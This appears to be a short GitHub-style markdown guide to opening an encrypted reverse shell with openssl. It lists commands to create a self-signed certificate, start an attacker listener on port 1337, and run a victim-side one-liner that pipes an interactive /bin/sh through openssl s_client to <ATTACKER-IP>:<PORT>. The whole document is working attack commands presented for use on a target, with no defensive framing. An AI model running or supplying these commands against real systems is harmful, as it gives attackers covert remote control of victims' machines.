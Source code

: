 # How to create a reverse shell on target with openssl
One could argue that this is moot if you're already doing deeds on the
target over plaintext, but whatev.

## create a certificate from attacker
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## start listener from attacker 
```
openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
```

## must have cert.pem on victim
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -CAfile /tmp/cert.pem -verify_return_error -verify 1 -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```
